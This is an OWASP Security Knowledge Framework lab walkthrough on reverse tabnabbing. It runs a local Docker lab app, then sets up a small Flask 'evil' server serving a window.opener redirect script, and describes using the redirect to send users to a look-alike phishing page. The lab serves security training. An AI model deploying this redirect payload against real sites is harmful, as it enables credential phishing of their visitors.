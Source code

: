 # Tabnabbing

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!

![](../../.gitbook/assets/tab1%20%281%29.png)

If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](../../.gitbook/assets/code.png)

## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](../../.gitbook/assets/tabnabbing_overview_with_link-1.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
  window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](../../.gitbook/assets/tab2.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)
